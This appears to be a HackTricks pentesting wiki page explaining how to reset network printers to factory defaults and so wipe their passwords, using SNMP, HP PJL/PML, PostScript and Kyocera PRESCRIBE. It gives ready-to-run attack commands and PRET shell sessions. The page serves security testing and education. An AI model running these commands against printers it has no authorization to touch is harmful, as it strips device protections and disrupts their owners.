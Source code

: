 

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


**Resetting** a device to factory defaults is a security-critical functionality as it **overwrites protection mechanisms** like user-set passwords. This can usually be done by pressing a **special key combination** on the printer's **control panel**. Performing such a cold reset only takes seconds and therefore is a realistic scenario for local attackers or penetration testers, who can for example sneak into the copy room at lunchtime. However, **physical access** to the device is **not always an option**.

### SNMP

The Printer-MIB defines the **prtGeneralReset** Object (**OID 1.3.6.1.2.1.43.5.1.1.3.1**) which allows an attacker to restart the device (powerCycleReset(4)), reset the NVRAM settings (resetToNVRAM(5)) or restore factory defaults (resetToFactoryDefaults(6)) using SNMP. This feature/attack is **supported by a large variety of printers** and removes all protection mechanisms like user-set passwords for the embedded web server. While protection mechanisms can be efficiently bypassed, a practical drawback of this approach is that all **static IP address configuration will be lost**. **If no DHCP** service is available, the attacker will **not** be able to **reconnect** to the device anymore after resetting it to factory defaults.

**Resetting the device to factory default** can be accomplished using `snmpset` command as shown below (you need to know the **community string**, by default in most cases is `public`):

```bash
snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
```

### [PML](./#pml)/[PJL](./#pjl)

In many scenarios an attacker does not have the capabilities to perform SNMP requests because of firewalls or unknown SNMP community strings. On **HP devices** however, **SNMP** can be transformed into its **PML representation** and embed the request within a legitimate print job. This allows an attacker to **restart and/or reset the device** to factory defaults within ordinary print jobs as shown below:

```bash
@PJL DMCMD ASCIIHEX="040006020501010301040106"
```

Anyone can reproduce this attack on HP printers, restarting or resetting the device can easily be reproduced using [**PRET**](https://github.com/RUB-NDS/PRET):

```bash
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```

### PostScript

PostScript offers a similar feature: The **FactoryDefaults** system parameter, ‘a flag that, if **set to true** **immediately before** the **printer is turned off**, causes all nonvolatile parameters to revert to their **factory default** values at the next power-on’. It must be noted that **PostScript** itself also has the capability to **restart** its **environment** but it requires a **valid password**. \
The PostScript interpreter however can be put into an **infinite loop** as discussed in [document processing](http://hacking-printers.net/wiki/index.php/Document\_processing) DoS attacks which forces the user to **manually restart** the device and thus reset the PostScript password.

Reset PostScript system parameters to factory defaults:

```bash
<< /FactoryDefaults true >> setsystemparams
```

Restart the PostScript interpreter and virtual memory:

```bash
true 0 startjob systemdict /quit get exec
```

Anyone can restart or reset a printer's PostScript interpreter can **easily be reproduced using** [**PRET**](https://github.com/RUB-NDS/PRET):

```bash
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```

### PRESCRIBE

For **Kyocera devices**, the **PRESCRIBE page** description languages may be used to **reset the device** to factory default from within ordinary print jobs using one of the commands shown below:

```bash
!R! KSUS "AUIO", "CUSTOM:Admin Password = 'admin00'";  CMMT "Drop the security level, reset password";
!R! ACNT "REST";                                       CMMT "Reset account code admin password";
!R! EGRE;                                              CMMT "Reset the engine board to factory defaults";
!R! SIOP0,"RESET:0";                                   CMMT "Reset configuration settings";
```

To reproduce this attack open a raw network connection to port 9100/tcp of the printer and **send the commands documented above**.


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


